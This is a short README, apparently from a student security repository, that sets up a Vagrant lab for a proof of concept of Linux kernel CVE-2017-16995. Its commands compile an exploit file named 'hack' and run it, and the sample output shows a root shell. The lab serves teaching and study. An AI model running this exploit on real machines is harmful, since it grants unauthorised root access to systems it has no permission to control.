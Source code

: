 # security_information_systems

### PoC of [CVE-2017-16995](https://www.cvedetails.com/cve/CVE-2017-16995/)
The check_alu_op function in kernel/bpf/verifier.c in the Linux kernel through 4.14.8 allows local users to cause a denial of service (memory corruption) or possibly have unspecified other impact by leveraging incorrect sign extension.

### Contents
- Vagrantfile
- script.sh

### Instructions
#### Getting all prepared
```shell
git clone https://github.com/Villaquiranm/security_information_systems.git
cd security_information_systems
```
#### Building Vagrant box
```shell
vagrant up
```
At this point it is necessary to wait because last instruction was to make a reboot in order to update all changes. This delay is approximately one minute after a successful build.

#### Accessing to vagrant box
```shell
vagrant shh
```
If connexion is refused, it is because the box is still rebooting, wait some time and retry.

#### Checking everything
If you follow all steps correctly, now you can see something like this:
```shell
Last login: Sun Nov 25 20:00:11 2018 from 10.0.2.2
vagrant@ubuntu-xenial:~$
```
Your kernel version is "4.4.0-116-generic", you can consult your kernel version with:
```shell
uname -r
```
#### Using the exploit
 First we need to compile our exploit with gcc compiler
 ```shell
 gcc upstream44.c -o hack
 ```
 That will create an executable file called **hack**. Execute it to become sudo.
 ```shell
 ./hack
 ```

Normally the results should be:
```shell
task_struct = ffff880036b38000
uidptr = ffff880036f44784
spawning root shell
root@ubuntu-xenial:~#
```
